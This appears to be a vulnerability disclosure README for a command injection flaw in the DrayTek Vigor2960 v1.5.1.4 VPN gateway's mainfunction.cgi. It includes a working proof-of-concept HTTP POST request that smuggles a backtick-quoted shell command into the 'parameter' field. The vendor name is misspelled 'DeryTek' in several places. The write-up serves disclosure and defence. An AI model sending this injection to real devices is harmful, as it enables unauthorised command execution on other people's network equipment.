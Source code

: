 # DeryTek Vigor2960 V1.5.1.4 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: DrayTek (https://www.draytek.com/)
- **Products**: VPN Gateway
- **Firmware download address**: https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Description

### 1.Product Information:

DeryTek Vigor2960 V1.5.1.4 VPN Gateway
![](img/1.jpg)

### 2. Vulnerability details

DeryTek Vigor2960 V1.5.1.4 was discovered to contain a command injection vulnerability in the mainfunction.cgi. This vulnerability allows attackers to execute arbitrary commands via the 'parameter' parameter.

![](img/21.jpg)
![](img/22.jpg)

We can see that the os will get `parameter` Not filtering the '`' . So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 57
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SESSION_ID_VIGOR=
Connection: close

action=commandTable&command=14&parameter=`touch test.txt`
```

![](img/3.jpg)
